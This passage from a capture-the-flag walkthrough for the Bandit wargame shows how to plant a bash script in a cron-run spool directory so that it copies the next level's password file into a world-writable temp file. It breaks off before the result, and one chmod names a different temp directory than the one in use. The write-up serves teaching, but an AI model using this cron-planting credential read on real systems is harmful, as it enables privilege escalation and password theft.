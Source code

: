 we need to make a script to save the bandit24 password in a file accessible by us.
First we'll create a random temporary directory to work:

```bash
bandit23@bandit:~$ mktemp -d
/tmp/tmp.N6nLd1uS2b
bandit23@bandit:~$ cd /tmp/tmp.N6nLd1uS2b
bandit23@bandit:/tmp/tmp.N6nLd1uS2b$ ls -al
total 404
drwx------    2 bandit23 bandit23   4096 Feb 11 13:21 ./
drwxrwx-wt 2105 root     root     405504 Feb 11 13:21 ../
```
{: .nolineno }

Now we will create the our script to output the content of the password file to a file in our temporary directory. After that we will send the script to the directory referenced in the cronjob script which is wiped out each minute:

```bash
bandit23@bandit:/tmp/tmp.N6nLd1uS2b$ nano bandit24_pass.sh
```
{: .nolineno }

with file opened in nano let's type our script:

```bash
#!/bin/bash
cat /etc/bandit_pass/bandit24 > /tmp/tmp.N6nLd1uS2b/password
```
{: .nolineno }

save it and close nano.

We need now to give the permissions to our files, to be possible the user bandit24 execute the script file correctly:

```bash
bandit23@bandit:/tmp/tmp.N6nLd1uS2b$ chmod +rx bandit24_pass.sh 
bandit23@bandit:/tmp/tmp.N6nLd1uS2b$ chmod 777 /tmp/tmp.ljEyl6kv1M
bandit23@bandit:/tmp/tmp.N6nLd1uS2b$ touch password
bandit23@bandit:/tmp/tmp.N6nLd1uS2b$ chmod 777 password
```
{: .nolineno }

Now we'll make a copy of our script in the destination folder:

```bash
bandit23@bandit:/tmp/tmp.N6nLd1uS2b$ cp bandit24_pass.sh /var/spool/bandit24/foo/bandit24_pass.sh
bandit23@bandit:/tmp/tmp.N6nLd1uS2b$ ls -al
total 408
drwxrwxrwx    2 bandit23 bandit23   4096 Feb 11 14:11 ./
drwxrwx-wt 2132 root     root     405504 Feb 11 14:13 ../
-rwxrwxr-x    1 bandit23 bandit23     73 Feb 11 13:37 bandit24_pass.sh*
-rwxrwxrwx    1 bandit23 bandit23      0 Feb 11 13:23 password*
```
{: .nolineno }

The password file is actually empty. But after a minute we can see see some content in the password file:

